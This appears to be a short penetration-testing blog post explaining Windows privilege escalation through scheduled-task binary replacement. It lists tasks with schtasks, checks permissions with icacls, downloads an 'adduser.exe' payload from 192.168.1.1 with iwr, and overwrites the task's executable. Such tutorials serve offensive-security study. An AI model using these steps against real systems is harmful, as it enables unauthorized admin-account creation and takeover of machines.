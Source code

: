 ```yaml
---
layout: post
title: Windows Scheduled Paths
titledate: 09/16/23
tags: ["infosec","offsec", "privesc", "powershell"]
---
```


on windows scheduled tasks are activities that get performed by windows that are meant to be scheduled

these activities can be a variety of things but can be leveraged for our purposes to perform privilege escalation

below are the 3 criteria we must consider when deciding if we can leverage privesc

1. which account executes the task
2. what conditions or triggers are needed for the task to execute
3. when these conditions are met, what actions get executed

if the attack is executed in the context of a current non admin user then we most likely can not escalate privs from it, however, if it is a system or admin acct then we may be able to

let's view the tasks

    PS > schtasks /query /fo LIST /v

this will provide us with a load of useful information like, the taskname, the time it is scheduled to run, if it was successful last run, who created it, where it executes from, and what is executing

we can check the permissions on the directory of the task 

    PS > icacls C:\Users\steve\Pictures\mytask.exe

so lets copy our adduser exe over

    PS > iwr -Uri http://192.168.1.1/adduser.exe -Outfile mytask.exe

and then move it to the directory the task executes from

    PS > move .\mytask.exe .\Pictures\

now to get our code to execute we must wait for the next scheduled execution of the task
